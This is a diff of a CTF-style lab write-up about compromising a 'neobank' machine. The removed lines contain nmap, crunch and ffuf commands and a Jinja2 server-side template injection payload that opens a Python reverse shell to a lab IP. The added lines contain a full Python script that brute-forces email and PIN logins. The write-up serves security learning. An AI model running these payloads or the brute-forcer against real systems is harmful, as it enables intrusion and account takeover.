

Before and after one commit to kUrOSH1R0oo/porfolfio, a Markdown page: writeup/neobank.md, 3 parts joined by grey strips. Shown at 80% size. Drawn GitHub-style; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

````diff
--- a/writeup/neobank.md
+++ b/writeup/neobank.md
@@ -14,8 +14,7 @@ Welcome back to another writeup! In this post, I'll be walking you through how I
 
-# Reconnaissance
-`tags: nmap, port-scanning`
+## Reconnaissance
 
-Let's scan for open ports using **Nmap** for potential entry points.
+### Scanning for Open Ports with Nmap
 
-`nmap -A -p- -T5 192.168.121.147`
+We will begin the assessment by performing a network scan using **Nmap** to identify open ports and potential entry points on the target system.
 
@@ -83,22 +82,57 @@ What if I add the decoded path?
 
-This suggests that the path is expecting some kind of input, possibly a GET parameter. However, since we don't know the exact parameter name yet, we'll need to fuzz for it.
+With the comprehensive PIN list generated, encompassing all values from 000000 to 999999, we proceeded to develop a custom brute-force script to systematically test these credentials against the target authentication mechanism.
 
----
+### Writing a Custom Brute-Force Script
 
-# Enumeration
-`tags: crunch, ffuf, fuzzing, wordlist-generation`
+```python
+import requests
+import sys
 
-Let's head back to port 80. That **6 6 1337leet** pattern? Turns out, it's actually a syntax used in **Crunch**. Maybe we can use the generated wordlist to fuzz the GET parameter.
+# Target endpoint URL for the login form
+TARGET_URL = "http://192.168.191.78:5000/login"
 
-`crunch 6 6 1337leet -o wordlist.txt`
+# File paths to the wordlists containing email addresses and PINs
+EMAIL_LIST_PATH = "neobank_emails.txt"
+PIN_LIST_PATH = "pins.txt"
 
-![](https://kur0sh1r0.gitbook.io/ctf-writeups/~gitbook/image?url=https%3A%2F%2F271954773-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FYsivTjPn2jLXI0ZgVqeF%252Fuploads%252FfZQcNGlcbO9QGWyUeUWn%252FScreenshot%2520%28809%29.png%3Falt%3Dmedia%26token%3D48cff127-4804-4596-a518-cb77ec9c0b9a&width=768&dpr=3&quality=100&sign=ad505158&sv=2)
+def read_lines_from_file(path):
+    """
+    Reads lines from a file and strips whitespace.
+    Returns a list of non-empty lines.
+    Exits the program with an error message if the file can't be read.
+    """
+    try:
+        with open(path, 'r') as file:
+            return [line.strip() for line in file if line.strip()]
+    except Exception as e:
+        print(f"[!] Failed to read from {path}: {e}")
+        sys.exit(1)
 
-## Fuzzing the Hidden GET Parameter
+def attempt_login(email, pin):
+    """
+    Attempts to authenticate to the target URL using the given email and PIN.
+    Returns True if a valid credential is identified (based on status code and cookies).
+    """
+    session = requests.Session()
+    payload = {
+        "email": email,
+        "pin": pin
+    }
 
-Now that we have the wordlist, let's fuzz the GET parameter using **ffuf**
+    try:
+        # Send the POST request with the login form data
+        response = session.post(TARGET_URL, data=payload)
+        code = response.status_code
 
-`ffuf -c -u 'http://192.168.121.147:5000/sh4d0w$s?FUZZ=so_drained' -w wordlist.txt -fs 8`
+        # Log each attempt to track progress and responses
+        print(f"[*] Attempting {email}:{pin} --> HTTP {code}")
 
-The **-fs 8** option filters out responses with a size of 8. This means that, for every incorrect GET parameter, the server will return "No input" with a length of 8. However, for the correct parameter, the response size will likely vary since I've used a value longer than 8 characters. To observe the response sizes more clearly, we can remove the filter and analyze them directly. This is a fundamental step in fuzzing, just a heads-up in case you're not yet familiar with the process.
+        # Heuristic for successful login:
+        # HTTP 200 OK and exactly one session cookie received
+        if code == 200 and len(response.cookies) == 1:
+            print(f"[+] VALID CREDENTIAL FOUND")
+            print(f"    ├── Email       : {email}")
+            print(f"    ├── PIN         : {pin}")
+            print(f"    └── Status Code : {code}\n")
+            return True
 
@@ -106,16 +141,28 @@ The **-fs 8** option filters out responses with a size of 8. This means that, fo
 
----
+    return False
 
-# Exploitation
-`tags: ssti, jinja2, reverse-shell`
+def main():
+    """
+    Main execution logic:
+    - Load wordlists for emails and PINs
+    - Begin brute-force attempts across all combinations
+    - Stop once a valid credential pair is discovered
+    """
+    emails = read_lines_from_file(EMAIL_LIST_PATH)
+    pins = read_lines_from_file(PIN_LIST_PATH)
 
-## Vulnerability Discovered: Server-Side Template Injection (SSTI) in Jinja2
+    print(f"[*] Loaded {len(emails)} email(s) and {len(pins)} PIN(s).")
+    print(f"[*] Starting brute-force operation...\n")
 
-Eventually, I identified the correct GET parameter. Given that the server is running Python, it's likely using **jinja2**-style templates. To verify this, I tried the following payload to see if the server is vulnerable to **server-side template injection (SSTI)**.
+    # Iterate through all email and PIN combinations
+    for pin in pins:
+        for email in emails:
+            if attempt_login(email, pin):
+                return  # Exit on first valid credential pair found
 
-```text
-{{10*10}}
+if __name__ == "__main__":
+    main()
 ```
 
-Here's the result
+It's important to note that the brute-force process may be time-consuming due to the volume of PIN combinations being tested. Patience is required as the operation progresses through each credential pair systematically.
 
@@ -123,7 +170,5 @@ Here's the result
 
-It's confirmed!! At this stage, we can establish a reverse shell. Here's the payload
+After a significant amount of time, the valid credentials were eventually identified.
 
-```python
-{% for cls in ().__class__.__base__.__subclasses__() %}{% if cls.__name__.find("warning") != -1 %}{{cls()._module.__builtins__.get('__import__')('os').popen("python3 -c 'import socket,os,pty,subprocess as sp;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"192.168.121.32\",4444));[os.dup2(s.fileno(),fd) for fd in range(3)];pty.spawn(\"/bin/bash\")'")}}{% endif %}{% endfor %}
-```
+With both the email and corresponding PIN now obtained, we can proceed to authenticate to the target application.
 
````
Also changed, not shown: other parts of writeup/neobank.md (+112 -232 lines).
